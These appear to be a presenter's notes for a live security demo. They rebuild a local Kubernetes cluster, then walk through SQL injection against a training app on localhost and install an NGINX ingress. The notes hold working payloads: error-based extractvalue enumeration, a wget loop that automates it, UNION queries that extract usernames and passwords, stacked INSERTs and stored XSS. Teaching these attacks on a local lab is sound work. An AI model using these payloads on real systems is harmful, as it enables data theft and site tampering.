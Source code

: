 # RESET

```
set +o history
kind delete cluster
docker pull nginx
docker pull nginx/nginx-ingress:2.1.1
docker pull ghcr.io/learnk8s/f5-microservices-march-three
helm repo remove nginx-stable
rm *
cp /Users/cns/httpdocs/talks/nginx-livedemo/cluster-config.yaml .
reset
kind create cluster --config cluster-config.yaml
kind load docker-image ghcr.io/learnk8s/f5-microservices-march-three
kind load docker-image nginx/nginx-ingress:2.1.1
kind load docker-image nginx
bat cluster-config.yaml
```

# todo:

- create deployment
- create node port service

# leak data

theres a few ways we can leak data out,

## error

we can simply corrupt the query to see if an error attack might work

```
http://localhost/product/1"a
```

ok, great news errors are surfaced we'll use `extractvalue()` its a simple way to is an easy way to generate an error and allow us to leak things, it only works with single values at a time, and will be truncated a bit, so requires enumerating through them

```
http://localhost/product/1" AND extractvalue(rand(),version())-- //
```

start enumerating through to see the databases

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))-- //
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 1,1)))-- //
```

ok, so now we know the database name we is sqltraining, so we can use the same tactic to get the tables in that database

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 0,1)))-- //
```

interesting a users table!

```
http://localhost/product/1" AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="sqlitraining" LIMIT 1,1)))-- //
```

Now all this enumeration might feel quite laborious, but what if instead use a simple script to do that instead

```bash
for i in {0..20}; do
  wget -q -O - "http://localhost/product/1\" AND extractvalue(rand(),concat(0x3a,(SELECT COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME=\"products\" AND table_schema=\"sqlitraining\" LIMIT ${i},1)))-- //" | grep mysqli_sql_exception | cut -d" " -f9
done
```
it shouldn't take much imagination to figure out how you could automate stealing all rows

# union leak
we don't know how many columns were in the original query so we have to brute force queries to satisfy the original query
```
http://localhost/product/-1" UNION SELECT username FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password FROM users where id=1 -- //
http://localhost/product/-1" UNION SELECT username, password, username FROM users where id=1 -- //

http://localhost/product/-1" UNION SELECT username,username,password,password,username FROM users where id=1 -- //
```
###


## inserting
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("hack", "hack", "hack", 1); -- //
```
## inserting with xss
```
http://localhost/product/1"; INSERT INTO products(product_name, product_type, description, price) VALUES("<script>alert('hi')</script>", "hack", "hack", 1); -- //
http://localhost/product/1"; INSERT INTO products(description, product_name, product_type, price) VALUES("<iframe width=560 height=315 src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>", "never gonna", "give you up", 1); -- //

```

Similarly you can probably imagine anything else we can do like truncate tables, add users, dump lots of data into a table

http://localhost/product/<iframe width='560' height='315' src='https://www.youtube-nocookie.com/embed/dQw4w9WgXcQ'></iframe>

<iframe sandbox="allow-forms allow-modals allow-popups allow-pointer-lock allow-same-origin allow-scripts" allowfullscreen="true" src="https://www.youtube-nocookie.com/embed/9Auq9mYxFEE?autoplay=1&amp;mute=1&amp;cc=1"></iframe>
# ingress
```bash
helm repo add nginx-stable https://helm.nginx.com/stable

helm install main nginx-stable/nginx-ingress \
 --set controller.enableSnippets=true \
 --set controller.image.pullPolicy=Never \
 --set controller.service.type=NodePort \
 --set controller.service.httpPort.nodePort=30000
```